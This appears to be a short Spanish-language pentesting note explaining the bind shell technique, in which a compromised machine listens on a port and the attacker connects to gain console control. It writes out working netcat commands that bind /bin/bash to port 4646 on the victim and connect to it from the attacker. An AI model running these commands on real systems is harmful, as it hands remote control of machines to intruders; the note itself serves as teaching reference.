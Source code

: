 ----
- Tags: #ReverseShell
----
>Esta técnica es el opuesto de la Reverse Shell, ya que en lugar de que la máquina comprometida se conecte a la máquina del atacante, es el atacante quien se conecta a la máquina comprometida. El atacante escucha en un puerto determinado y la máquina comprometida acepta la conexión entrante en ese puerto. El atacante luego tiene acceso por consola a la máquina comprometida, lo que le permite tomar el control de la misma.

Máquina víctima

```
nc -nlvp 4646 -e /bin/bash
```

Máquina atacante
```
nc IpVíctima 4646
```